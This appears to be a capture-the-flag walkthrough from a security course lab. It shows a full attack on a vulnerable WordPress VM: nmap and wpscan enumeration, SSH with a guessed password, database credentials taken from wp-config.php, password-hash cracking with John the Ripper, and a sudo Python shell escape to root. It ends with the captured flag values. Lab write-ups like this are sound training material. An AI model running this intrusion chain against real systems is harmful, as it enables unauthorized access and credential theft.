 # **TARGET 1 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- nmap

- wpscan

- google developers tool

- Q terminal

- Kali Linux

- ssh

- Bash Commands

- Mysql

- John the Ripper

- Python Script

---

## **Walkthrough**

1.` nmap -sV 192.168.1.110`

![1](/Images/2/1.png)

2. Enumerate: `wpscan --url http://192.168.1.110/wordpress -eu`. Likewise, the usernames are easy to guess because of the leads on the website.

3. Search with the google developers tool the flag inside the code

4. Go to Services

5. Search: `flag`

![2](/Images/2/2.png)

6. In the terminal: `'ssh michael@192.168.1.110'`

7. Password: `michael` (Method to obtain the password was guessing. It can also be obtained with Hydra)

8. `pwd`

9. `cd ../../`

10. `find  -iname “*flag*” 2>/dev/null`

![3](/Images/2/3.png)

11. `cat /var/www/flag2.txt`

![4](/Images/2/4.png)

12. `Cd /var/www/html/wordpress`

13. `Nano wp-config.php`

![5](/Images/2/5.png)

14. `mysql -u root -p`

15. Password: `R@v3nSecurity`

16. `show databases;`

![6](/Images/2/6.png)

17. `use wordpress;`

![7](/Images/2/7.png)

18. `show tables;`

![8](/Images/2/8.png)

19. `SELECT * FROM wp_users;`

![9](/Images/2/9.png)

20. Right click and copy the part with the hashes

21. In another terminal in the attacker machine create a file and paste the hashes

22. Give the appropriate structure for john the ripper use to crack the hashes

23. nano hashes.txt

![10](/Images/2/10.png)

24. `john hashes.txt –wordlist=’/usr/share/wordlist/rockyou.txt’`

25. `john –show hashes.txt`

![11](/Images/2/11.png)

26. `sudo steven`

27. Password: `pink84`

28. `Sudo -l`

![12](/Images/2/12.png)

29. `sudo python -c 'import pty;pty.spawn("/bin/bash")'`

![13](/Images/2/13.png)

30. `find  -iname “*flag*” 2>/dev/null`

![14](/Images/2/14.png)

31. `cat /root/flag4.txt`

![15](/Images/2/15.png)

32. `grep -r flag3 *`

![16](/Images/2/16.png)

33. `nano /var/lib/mysql/ib_logfile0`

34. `Ctrl w`

35. `flag3`

![17](/Images/2/17.png)

# FLAGS

flag1{b9bbcb33e11b80be759c4e844862482d}

flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

flag3{afc01ab56b50591e7dccf93122770cd2}

flag4{715dea6c055b9fe3337544932f2941ce}
